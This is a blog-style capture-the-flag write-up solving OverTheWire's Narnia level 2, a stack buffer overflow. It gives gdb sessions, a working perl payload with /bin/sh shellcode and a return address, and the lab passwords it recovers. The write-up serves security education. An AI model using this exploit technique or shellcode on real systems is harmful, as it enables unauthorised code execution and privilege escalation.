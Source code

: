 ```yaml
---
layout: post
title:  "Narnia Level 2"
date:   2015-10-10 12:52
categories: narnia wargame pwnable overthewire
author: Leander
---
```


This is a solution guide to the Narnia2 Level at [overthewire](http://overthewire.org/wargames/narnia/) This write-up was originally created on 28 February 2015.

First connect to the lab
<ul><li>ssh narnia2@narnia.labs.overthewire.org</li>
<li>Enter the following as the password nairiepecu</li></ul>

Change directories to the narnia games folder ``` cd /narnia ```. Next, let's examine how we get the password for the next level ``` less narnia2.c ```.

{% highlight c linenos %}
int main(int argc, char * argv[]){
        char buf[128];

        if(argc == 1){
                printf("Usage: %s argument\n", argv[0]);
                exit(1);
        }
        strcpy(buf,argv[1]);
        printf("%s", buf);

        return 0;
}
{% endhighlight %}

This challenge appears to revolve around a simple buffer overflow. Notice that
the strcpy will take whatever argument is in argv and copy it to the buffer. Also
that there is no bounds checking - as a result it is possible to overwrite the 
return address following printf.

First, let's figure out how large the buffer is that we need to overflow. We know
buf is 128 bytes, so let's setup that first.

<figure class="highlight"><pre><code class="language-text" data-lang="text">|----------------|
|    buf is      |
|    128 bytes   |
|----------------|
|    12 bytes    |
|   of garbage   |
|----------------|
|    return 0    |
|----------------|</code></pre></figure>

So lets test it out, but first lets find a good breakpoint in gdb. Startup narnia2 inside gdb with the following command: ```  gdb ./narnia2 ``` and then:

<figure class="highlight"><pre><code class="language-text" data-lang="text">(gdb) disass main
   0x080484b0 <+83>:	movl   $0x8048574,(%esp)
   0x080484b7 <+90>:	call   0x8048310 <printf@plt>
   0x080484bc <+95>:	mov    $0x0,%eax
   0x080484c1 <+100>:	leave  
   0x080484c2 <+101>:	ret    
End of assembler dump.</code></pre></figure>

Since we are attempting to target the last ret, lets set a breakpoint 
at the leave instruction with the following gdb command: ``` break *0x080484c1 ```

Now we are ready to experiment! Now run a string that is a total of 140 bytes.

<figure class="highlight"><pre><code class="language-text" data-lang="text">(gdb) run `perl -e 'print "A"x140'`
Starting program: /games/narnia/narnia2 `perl -e 'print "A"x140'`
Breakpoint 1, 0x080484c1 in main ()
(gdb) c
Continuing.
Program received signal SIGSEGV, Segmentation fault.
0xf7e3ba00 in __libc_start_main () from /lib32/libc.so.6</code></pre></figure>	

Okay, now that we know we crash let's verify that we can take control of the program.
We can test this by adding 4 known bytes to see if we crash at the address we have 
chosen.

<figure class="highlight"><pre><code class="language-text" data-lang="text">(gdb) run `perl -e 'print "A"x140 . "\xef\xbe\xad\xde"'`
Starting program: /games/narnia/narnia2 `perl -e 'print "A"x140 . "\xef\xbe\xad\xde"'`
Breakpoint 1, 0x080484c1 in main ()
(gdb) c
Continuing.
Program received signal SIGSEGV, Segmentation fault.
0xdeadbeef in ?? ()</code></pre></figure>

Now we know we can take control of the program! so now we have to pick a good address
that we want to return to. A good way to do this is to examine esp and subtract our
buffer length so see where our shellcode can start.

<figure class="highlight"><pre><code class="language-text" data-lang="text">(gdb) x/40xw $esp-144
0xffffd5c0:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd5d0:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd5e0:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd5f0:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd600:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd610:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd620:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd630:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd640:	0x41414141	0x41414141	0x41414141	0xdeadbeef
0xffffd650:	0x00000000	0xffffd6e4	0xffffd6f0	0xf7feacea</code></pre></figure>

So now we know the earliest starting address is 0xffffd5c0. Next we should craft our exploit. The first step is to grab some shellcode from [shell storm](http://shell-storm.org/shellcode/files/shellcode-811.php). Next, let's craft our exploit together with the shellcode.

<figure class="highlight"><pre><code class="language-text" data-lang="text">`perl -e 'print "A"x56 . "\x31\xc0\x50\x68\x2f\x2f\x73" . "\x68\x68\x2f\x62\x69\x6e\x89" .  "\xe3\x89\xc1\x89\xc2\xb0\x0b" . "\xcd\x80\x31\xc0\x40\xcd\x80" . "B"x56 . "\xec\xd5\xff\xff"'`</code></pre></figure>

Notice that I have added some padding, this is mainly to help my exploit so that I don't have to be as precise and it also helps since the environment variables change when I exit the debugger. Now, we can try out exploit, but first let's see what it looks like in the stack so that we can compare against our previous test.

<figure class="highlight"><pre><code class="language-text" data-lang="text">(gdb) run `perl -e 'print "A"x56 . "\x31\xc0\x50\x68\x2f\x2f\x73" . "\x68\x68\x2f\x62\x69\x6e\x89" .  "\xe3\x89\xc1\x89\xc2\xb0\x0b" . "\xcd\x80\x31\xc0\x40\xcd\x80" . "B"x56 . "\xef\xbe\xad\xde"'`

Starting program: /games/narnia/narnia2 `perl -e 'print "A"x56 . "\x31\xc0\x50\x68\x2f\x2f\x73" . "\x68\x68\x2f\x62\x69\x6e\x89" .  "\xe3\x89\xc1\x89\xc2\xb0\x0b" . "\xcd\x80\x31\xc0\x40\xcd\x80" . "B"x56 . "\xef\xbe\xad\xde"'`

Breakpoint 1, 0x080484c1 in main ()
(gdb) c
Continuing.
Program received signal SIGSEGV, Segmentation fault.
0xdeadbeef in ?? ()
(gdb) x/40xw $esp-144
0xffffd5c0:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd5d0:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd5e0:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd5f0:	0x41414141	0x41414141	0x6850c031	0x68732f2f
0xffffd600:	0x69622f68	0x89e3896e	0xb0c289c1	0x3180cd0b
0xffffd610:	0x80cd40c0	0x42424242	0x42424242	0x42424242
0xffffd620:	0x42424242	0x42424242	0x42424242	0x42424242
0xffffd630:	0x42424242	0x42424242	0x42424242	0x42424242
0xffffd640:	0x42424242	0x42424242	0x42424242	0xdeadbeef
0xffffd650:	0x00000000	0xffffd6e4	0xffffd6f0	0xf7feacea</code></pre></figure>

Notice that we now have shellcode that is interwoven between our "A"s and "B"s to assist 
with accounting for changes once we leave the debugger. So now we can pick a return address
somewhere inside the "A"s. I am going to select an address in the middle, 0xffffd5e0.

<figure class="highlight"><pre><code class="language-text" data-lang="text">(gdb) run `perl -e 'print "A"x56 . "\x31\xc0\x50\x68\x2f\x2f\x73" . "\x68\x68\x2f\x62\x69\x6e\x89" .  "\xe3\x89\xc1\x89\xc2\xb0\x0b" . "\xcd\x80\x31\xc0\x40\xcd\x80" . "B"x56 . "\xe0\xd5\xff\xff"'`

Starting program: /games/narnia/narnia2 `perl -e 'print "A"x56 . "\x31\xc0\x50\x68\x2f\x2f\x73" . "\x68\x68\x2f\x62\x69\x6e\x89" .  "\xe3\x89\xc1\x89\xc2\xb0\x0b" . "\xcd\x80\x31\xc0\x40\xcd\x80" . "B"x56 . "\xe0\xd5\xff\xff"'`

process 23943 is executing new program: /bin/dash
$</code></pre></figure>

Great it worked! Now, let's try it outside the debugger.
	
<figure class="highlight"><pre><code class="language-text" data-lang="text">narnia2@melinda:/narnia$ ./narnia2 `perl -e 'print "A"x56 . \
"\x31\xc0\x50\x68\x2f\x2f\x73" . \
"\x68\x68\x2f\x62\x69\x6e\x89" . \
"\xe3\x89\xc1\x89\xc2\xb0\x0b" . \
"\xcd\x80\x31\xc0\x40\xcd\x80" . \ 
"B"x56 . "\xe0\xd5\xff\xff"'`
$ whoami
narnia3
$ cat /etc/narnia_pass/narnia3
vaequeezee
$ </code></pre></figure>


BINGO, it worked and we didn't even have to worry about our address because of the padding! 
Level 3 password is ``` vaequeezee ```
